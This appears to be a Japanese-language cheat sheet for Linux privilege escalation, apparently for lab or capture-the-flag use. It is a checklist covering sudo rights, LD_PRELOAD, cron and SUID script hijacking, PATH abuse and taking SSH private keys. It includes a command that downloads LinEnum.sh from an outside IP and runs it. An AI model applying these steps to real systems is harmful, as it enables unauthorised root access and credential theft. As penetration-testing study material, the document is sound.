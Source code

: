 # Linux Privilege Escalation Flow

## 実行フロー
1. sudo -l の実行
2. LinEnum の実行
3. ホームディレクトリの確認
4. Cron の確認
5. SUID / SGID の確認
6. Bash のバージョン確認
7. Sudo のバージョン確認
8. 機密ファイルのパーミッション確認


## 1. sudo -l の実行
### root 権限で実行可能なコマンドが存在する場合
[GTFOBins](https://gtfobins.github.io/) で検索

### ユーザー環境から継承された環境変数が存在する場合
- LD_PRELOAD が存在する : [こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation2.md#ld_preload-%E3%81%8C%E5%AD%98%E5%9C%A8%E3%81%99%E3%82%8B%E5%A0%B4%E5%90%88)  
- LD_LIBRARY_PATH が存在する : [こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation2.md#ld_library_path-%E3%81%8C%E5%AD%98%E5%9C%A8%E3%81%99%E3%82%8B%E5%A0%B4%E5%90%88)

## 2. LinEnum の実行
```
wget http://10.4.49.251/LinEnum.sh -O /tmp/LinEnum.sh; chmod +x /tmp/LinEnum.sh
cd /tmp && ./LinEnum.sh
```

## 3. ホームディレクトリの確認
- [ ] 他のユーザーは存在するか
- [ ] ディレクトリにアクセスできるか
- [ ] SSH 秘密鍵は取得できるか
- [ ] 手がかりとなるファイルは存在するか
- [ ] フラグとなるファイルは存在するか

## 4. Cron の確認
- [ ] Crontab に怪しいファイルは存在するか
- [ ] 指定方法はスクリプト名 or 絶対パス
- [ ] スクリプトは root 権限で実行されるか
- [ ] スクリプトは置き換え可能か（ディレクトリに書き込み権限はあるか）
- [ ] スクリプトは書き換え可能か（ファイルに書き込み権限はあるか）
- [ ] 内部で実行されているプログラム（コマンド）の指定方法はスクリプト名 or 絶対パス

存在する場合...
### 4-1. 指定方法がスクリプト名（絶対パスでない）の場合
環境変数 PATHの追加は[こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation2.md#%E7%92%B0%E5%A2%83%E5%A4%89%E6%95%B0-path)

### 4-2. 指定方法が絶対パスの場合
#### スクリプトの置き換え / 書き換え
- ディレクトリに書き込み権限あり : スクリプトの置き換え  
- ファイルに書き込み権限あり : スクリプトの書き換え

#### スクリプト内容の確認
・シェルスクリプトの場合
```
cat [FILE]
```

・バイナリファイルの場合  
実行されているプログラム（コマンド）の確認
```
strings [FILE]
```

指定方法がコマンド名（絶対パスでない）の場合 : [こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation2.md#%E7%92%B0%E5%A2%83%E5%A4%89%E6%95%B0-path)
<!-- 環境変数 PATHの追加は[こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation2.md#%E7%92%B0%E5%A2%83%E5%A4%89%E6%95%B0-path) -->

指定方法が絶対パスの場合
- ディレクトリに書き込み権限あり : スクリプトの置き換え  
- ファイルに書き込み権限あり : スクリプトの書き換え

#### 読み込まれている共有ライブラリの確認
・環境変数 LD_LIBRARY_PATH が利用できる場合 : [こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation.md#ld_library_path-%E3%81%8C%E5%AD%98%E5%9C%A8%E3%81%99%E3%82%8B%E5%A0%B4%E5%90%88)

・環境変数 LD_LIBRARY_PATH が利用できない場合  
読み込みエラーになっている共有ライブラリのうち、ディレクトリ、ファイルのいずれかに書き込み権限がないか確認。

```
ldd [FILE]
strace [FILE] 2>&1 | grep -iE "open|access|no such file"
```

- ディレクトリに書き込み権限あり : スクリプトの置き換え  
- ファイルに書き込み権限あり : スクリプトの書き換え

## 5. SUID / SGID の確認
- [ ] 既存の脆弱性（Exim <= 4.84-3 など）は存在するか
- [ ] スクリプトは置き換え可能か（ディレクトリに書き込み権限はあるか）
- [ ] スクリプトは書き換え可能か（ファイルに書き込み権限はあるか）
- [ ] 内部で実行されているプログラム（コマンド）の指定方法はスクリプト名 or 絶対パス

・ディレクトリ、ファイルに書き込み権限がある場合  
共有オブジェクトの利用は[こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation2.md#%E5%85%B1%E6%9C%89%E3%82%AA%E3%83%96%E3%82%B8%E3%82%A7%E3%82%AF%E3%83%88%E3%81%AE%E5%88%A9%E7%94%A8)

・内部で実行されているプログラム（コマンド）がコマンド名で指定されている場合  
環境変数の利用は[こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation2.md#%E7%92%B0%E5%A2%83%E5%A4%89%E6%95%B0)

<!-- <dl>
  <dt>ディレクトリ、ファイルに書き込み権限がある場合</dt>
  <dd>共有オブジェクトの利用は<a href="https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation2.md#%E5%85%B1%E6%9C%89%E3%82%AA%E3%83%96%E3%82%B8%E3%82%A7%E3%82%AF%E3%83%88%E3%81%AE%E5%88%A9%E7%94%A8">こちら</a></dd>
  <dt>内部で実行されているプログラム（コマンド）がコマンド名で指定されている場合</dt>
  <dd>環境変数の利用は<a href="https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation2.md#%E7%92%B0%E5%A2%83%E5%A4%89%E6%95%B0">こちら</a></dd>
</dl> 
-->

## 6. Bash のバージョン確認
参照は[こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation.md#%E3%82%B7%E3%82%A7%E3%83%AB%E3%81%AE%E4%BB%95%E6%A7%98-1)

## 7. Sudo のバージョン確認
参照は[こちら]()

## 8. 機密ファイルのパーミッション確認
参照は[こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation.md#%E6%A9%9F%E5%AF%86%E3%83%95%E3%82%A1%E3%82%A4%E3%83%AB%E3%81%AE%E3%83%91%E3%83%BC%E3%83%9F%E3%83%83%E3%82%B7%E3%83%A7%E3%83%B3%E7%A2%BA%E8%AA%8D)

